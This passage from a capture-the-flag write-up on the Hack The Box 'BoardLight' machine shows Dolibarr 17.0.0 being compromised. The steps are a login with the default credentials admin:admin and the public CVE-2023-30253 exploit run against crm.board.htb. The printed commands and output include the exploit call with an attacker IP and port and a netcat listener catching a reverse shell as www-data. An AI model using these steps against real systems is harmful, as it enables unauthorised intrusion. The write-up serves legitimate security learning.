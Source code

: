 ``Dolibarr ERP/CRM (version 17.0.0)`` is identified on **crm.board.htb**. 

<p align="center">
    <img src="assets/img/writeupImgs/boardlight/htb_boardlight_4_admin.jpg" width="700"
    alt="Descripción">
</p>

After some testing, the default credentials admin:admin work for login. A known vulnerability, ``CVE-2023-30253``, allows remote code execution through uppercase manipulation in PHP data.

Now, we can a [github exploit](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253) to achieve RCE.

Which grants us a shell as www-data.

```bash
┌─[figueron@figueron]─[/hackthebox/BoardLight]
└──╼ $ python3 exp.py http://crm.board.htb admin admin 10.10.14.14 1234
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```

```bash
┌─[figueron@figueron]─[/hackthebox/BoardLight]
└──╼ $ nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from board.htb [10.10.11.11] 35672
bash: cannot set terminal process group (856): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$
```
